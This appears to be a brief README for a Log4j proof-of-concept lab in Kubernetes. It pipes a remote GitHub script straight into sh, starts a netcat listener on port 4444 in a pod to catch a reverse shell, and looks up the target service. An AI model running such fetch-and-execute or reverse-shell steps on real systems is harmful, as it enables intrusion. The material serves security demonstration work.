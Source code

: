 # log4j-poc in kubernetes environment

Terminal 1: 
`apt-get update && apt-get install -y wget;wget -q -O - https://raw.githubusercontent.com/nandakrr/log4j-poc/main/run.sh | sh`

Terminal 2: 
`kubectl exec -it nc-pod -- nc -lvnp 4444`

Terminal 3:
`kubectl get all | grep java-ms-svc | awk '{print $4}'`
